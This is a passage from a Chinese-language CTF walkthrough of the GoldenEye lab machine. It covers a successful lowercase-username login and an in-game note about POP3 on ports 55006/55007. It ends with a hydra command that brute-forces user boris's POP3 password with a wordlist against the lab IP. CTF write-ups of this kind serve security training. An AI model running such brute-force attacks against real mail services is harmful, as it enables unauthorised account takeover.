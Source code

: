 #### 1.4.2使用小写用户名进行尝试

登录成功

![image-20230527174804951](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230527174804951.png)

![image-20230527174834865](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230527174834865.png) 

翻译：“黄金眼”是苏联的绝密武器项目。由于您拥有访问权限，您肯定拥有绝密许可并有资格成为经过认证的GoldenEye网络运营商(GNO)。请给合格的GNO主管发电子邮件，以接受在线GoldenEye运营商培训，成为GoldenEye系统的管理员。请记住，由于匿名安全性非常有效，我们已将pop3服务配置为在非常高的非默认端口上运行

由于上面我们扫描出 55006、55007(pop3)端口

## 2、漏洞挖掘

### 2.1 爆破boris 的pop3邮箱密码

```
hydra -l boris -P /usr/share/wordlists/fasttrack.txt  192.168.128.140 -s 55007 pop3
```
